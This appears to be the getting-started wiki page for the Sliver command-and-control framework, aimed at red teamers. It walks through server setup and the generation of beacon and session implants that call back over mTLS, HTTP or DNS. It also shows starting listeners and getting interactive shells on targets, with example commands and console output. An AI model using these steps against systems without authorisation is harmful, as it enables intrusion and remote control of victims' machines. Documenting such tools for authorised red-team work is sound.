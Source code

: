 

__⚠️ NOTE:__ This guide is intended for experienced red teamers, please see the [Beginner's Guide](https://github.com/BishopFox/sliver/wiki/Beginner's-Guide) for a more beginner friendly tutorial.

## Server Setup

The first thing you'll need to do is setup a Sliver server, Sliver is designed for a one server deployment per-operation.

The server supports Linux, Windows, and MacOS however we strongly recommend running the server on a Linux (or MacOS, well really anything that isn't Windows), as some features may be more difficult to get working on a Windows server. The Windows client should work just fine when accessing a Linux/MacOS server from Windows, if for some odd reason your operators want to actually use Windows you'll just need to setup [multiplayer mode](https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode).

Download the latest sever [release](https://github.com/BishopFox/sliver/releases) for your platform, and just run the binary.

__IMPORTANT:__ Sliver has two external dependancies for _optional_ features: MinGW and Metasploit. To enable DLL payloads you need to install MinGW. To enable some MSF integrations you'll need Metasploit installed on the server.

### MinGW Setup (Optional, Recommended)

In order to enable shellcode/staged/DLL payloads you'll need to install MinGW on the server (clients connecting to the server do not need it installed). By default Sliver will look in the usual places for MinGW binaries but you can override this using the [environment variables](https://github.com/BishopFox/sliver/wiki/Environment-Variables).

#### Linux (Debian-based)

```
apt install mingw-w64
```

#### MacOS

```
brew install mingw-w64
```

__Note:__ On MacOS may have to configure [environment variables](https://github.com/BishopFox/sliver/wiki/Environment-Variables) for MinGW.

### Metasploit Setup (Optional)

We strongly recommend using the [nightly framework installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers), Sliver expects version 5 or later.

## Implants Beacon vs. Session

__IMPORTANT:__ The first time you generate an implant the server needs to download some Go module code, so the server must have internet access. See [offline implant builds](https://github.com/BishopFox/sliver/wiki/Offline-Implant-Builds) if this is a problem for you. The modules are cached.

Sliver is generally designed as a stage 2 payload, and as such we've not yet endeavored to minimize the implant's file size. Depending on how many protocols you enable in your implant the file can get large, we strongly advise the use of [stagers](https://github.com/BishopFox/sliver/wiki/Stagers) for actual operations. Such is the tradeoff for getting easy static compilation in Golang.

Sliver implants in v1.5 and later support two modes of operation: "beacon mode" and "session mode." Beacon mode implements an asynchronous communication style where the implant periodically checks in with the server retrieves tasks, executes them, and returns the results. In "session mode" the implant will create an interactive real time session using either a persistent connection or using long polling depending on the underlying C2 protocol. 

Beacons may be tasked to open interactive sessions over _any C2 protocol they were compiled with_ using the `interactive` command, i.e., if a beacon implant was not compiled with HTTP C2 it cannot open a session over HTTP (use the `close` command to close the session). However, currently implants initially compiled for session mode cannot be converted to beacon mode. Take this into account during operational planning.

Some commands such as `shell` and `portfwd` only work over interactive sessions.

## Generating Implants

Generating implants is done using the `generate` command, you must specify at least one C2 endpoint using `--mtls`, `--wg`, `--http`, or `--dns`. Note that when an implant attempts to connect to an endpoint specified using `--http` it will try both HTTPS and then HTTP (if HTTPS fails). We recommend using mTLS (`--mtls`) or WireGuard (`--wg`) whenever possible. You can also specify an output directory with `--save`, by default the implant will be saved to the current working directory.

#### Session Mode

```
[server] sliver > generate --mtls example.com --save /Users/moloch/Desktop

[*] Generating new windows/amd64 Sliver binary
[*] Build completed in 00:00:16
[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```

#### Beacon Mode

```
[server] sliver > generate beacon --mtls example.com --save /Users/moloch/Desktop

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:00:27
[*] Implant saved to /Users/moloch/Desktop/FINE_SENTENCE.exe
```

Sliver implants are cross-platform, you can change the compiler target with the `--os` flag. Sliver accepts any Golang GOOS and GOARCH as arguments `--os` and `--arch`, we officially only support Windows, MacOS, and Linux, but you can at least attempt to compile for any other [valid Golang GOOS/GOARCH](https://gist.github.com/asukakenji/f15ba7e588ac42795f421b48b8aede63) combination. The `generate info` command will also estimate what compiler targets can be used based on the server's host operating system and available cross-compilers.

Some commands/features may not work on "unsupported" platforms.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --os mac

[*] Generating new darwin/amd64 Sliver binary
[*] Build completed in 00:00:09
[*] Sliver binary saved to: /Users/moloch/Desktop/PROPER_ANTHONY
```

The server will also assign code names to each generated binary i.e. `NEW_GRAPE.exe` you can rename the file to anything you need to, but these code names will still uniquely identify the generated binary (they're inserted at compile-time). You can also view all previously generated implant binaries with the `implants` command:

```
sliver > implants

Name                    OS/Arch        Debug  Format
====                    =======        =====  ======
CAUTIOUS_PANPIPE        darwin/amd64   false  EXECUTABLE
LATE_SUBCOMPONENT       windows/amd64  false  SHARED_LIB
RUBBER_PRINTER          windows/amd64  true   SHARED_LIB
RACIAL_SPECTACLES       darwin/amd64   false  EXECUTABLE
MATHEMATICAL_SASH       darwin/amd64   true   SHARED_LIB
MUSHY_TRADITIONALISM    windows/amd64  false  SHARED_LIB
SICK_SPY                darwin/amd64   false  EXECUTABLE
```

If you need to re-download a previously generated implant use the `regenerate` command, note that positional arguments (the implant name) comes after the command flags (e.g., `--save`):

```
sliver > regenerate --save /Users/moloch/Desktop NEW_GRAPE

[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```

#### Additional Details

For addition details about each C2 please see:
* [HTTP(S) C2](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2)
* [DNS C2](https://github.com/BishopFox/sliver/wiki/DNS-C2)

## Getting Shells

Before you can catch the shell, you'll first need to start a listener. You use the commands `mtls`, `http`, `https`, and `dns` to start listeners for each protocol (remember endpoints specified with `--http` can connect to a listener started with `https`). You can use the `jobs` command to view and manage listeners running in the background. Listeners support both sessions and beacons callbacks:

```
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   mTLS  tcp       8888
```

In this example we're using Mutual TLS, the required certificates for setting up and securing this connection have already been generated in the background and the client certificate pair was embedded into the implant at compile-time. So to get a shell you just have to run the binary on the target.

The `use` command will tab-complete session and beacon identifiers, but you can also type them out if you really want to (identifier prefixes are accepted). Additionally, running the `use` command with no arguments will enter an interactive menu to select from.

```
[*] Session 8ff2ce4c LONG_DRAMATURGE - [::1]:57154 (MacBook-Pro-6.local) - darwin/amd64 - Thu, 20 Jan 2022 15:45:10 CST

sliver > use 8ff2ce4c

[*] Active session LONG_DRAMATURGE (8ff2ce4c-9c66-4cbc-b33c-2a56196536e6)

sliver (LONG_DRAMATURGE) > ls

/Users/moloch/Desktop
=====================
.DS_Store                 6.0 KiB
.localized                0 B
LONG_DRAMATURGE           6.3 MiB
```

If you're having problems getting callbacks please see our [troubleshooting guide](https://github.com/BishopFox/sliver/wiki/Troubleshooting#implant-troubleshooting), (TL;DR add the `--debug` flag when generating an implant).

## Multiple Domains/Protocols

You can specify multiple domains and protocols during the generation process. Right now Sliver will attempt to use the most performant protocols first (MTLS -> WG -> HTTP(S) -> DNS) using subsequent domains/protocols when connections fail.

```
sliver > generate --mtls example.com --http foobar.com --dns 1.lil-peep.rip
```

Eventually we'll add a feature to manually specify the fallback protocols, or you can add this feature and send up a PR :).

## What Next?

Most commands have a `--help` and support tab complete, you may also find the following wiki articles of interest:

* [Stagers](https://github.com/BishopFox/sliver/wiki/Stagers)
* [Port Forwarding](https://github.com/BishopFox/sliver/wiki/Port-Forwarding)
* [Reverse SOCKS](https://github.com/BishopFox/sliver/wiki/Reverse-SOCKS)
* [BOF/COFF Support](https://github.com/BishopFox/sliver/wiki/BOF-&-COFF-Support)